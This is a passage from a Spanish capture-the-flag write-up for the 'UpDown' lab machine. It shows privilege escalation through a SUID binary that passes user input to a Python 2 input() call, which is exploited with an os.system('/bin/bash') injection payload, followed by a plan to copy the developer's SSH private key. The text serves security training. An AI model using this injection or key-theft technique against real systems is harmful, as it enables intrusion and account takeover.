 ~~~bash
-rwsr-x--- 1 developer www-data  16928 Jun 22  2022 siteisup
-rwxr-x--- 1 developer www-data    154 Jun 22  2022 siteisup_test.py
~~~
Viendo los archivos en su interior, se puede ver que existe un binario "siteisup" con permisos SUID para el usuario developer, esto es una posible via de escalada de privilegios.
Inspeccionando el binario con strings
~~~bash
www-data@updown:/home/developer/dev$ strings /home/developer/dev/siteisup
/lib64/ld-linux-x86-64.so.2
libc.so.6
<SNIP>
Welcome to 'siteisup.htb' application
/usr/bin/python /home/developer/dev/siteisup_test.py
:*3$"
GCC: (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.8061
<SNIP>
.data
.bss
.comment
~~~
Se puede ver que basicamente llama al script "siteisup_test.py" para ejecutarlo, este script esta dentro del mismo directorio asi que se lo inspecciona.
~~~bash
www-data@updown:/home/developer/dev$ cat siteisup_test.py 
import requests

url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
        print "Website is up"
else:
        print "Website is down"
~~~
A primera vista salta que por la estructura de como esta escrito el "print", parece que se lo debe ejecutar con python2.
Algo interesante que se debe saber, es que en python2 la estructura de los inputs es diferente al de python3, esto porque antes el input hacia alusión a llamar a un "eval()" que es una función que permite llamar a otras funciones. Esta página lo explica mejor https://www.geeksforgeeks.org/python/vulnerability-input-function-python-2-x/.
Asi que se podria ingresar un payload para la entrada "input" del script en python.
~~~bash
www-data@updown:/home/developer/dev$ python2 siteisup_test.py 
Enter URL here:__import__('os').system('id')
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~
Entonces se ve que funciona, pero este no es el archivo con permisos SUID, sino que es el otro binario "siteisup", por lo que se ejecuta con los comandos parecidos, pero esta ves se ejecuta directamente una bash.
~~~bash
www-data@updown:/home/developer/dev$ /home/developer/dev/siteisup
Welcome to 'siteisup.htb' application

Enter URL here:__import__('os').system('/bin/bash')
developer@updown:/home/developer/dev$ id
uid=1002(developer) gid=33(www-data) groups=33(www-data)
~~~
Esto funcionó, ahora somos el usuario developer, pero por alguna razon aun pertenecemos al grupo www-data, por lo que aun no tendriamos acceso a la user flag.
Pero se tiene una carpeta ssh, esto tiene permisos 600 por lo que si puedo leerla, entonces copio el id_rsa e inicio sesion sin contraseña por ssh.
~~~bash
~~~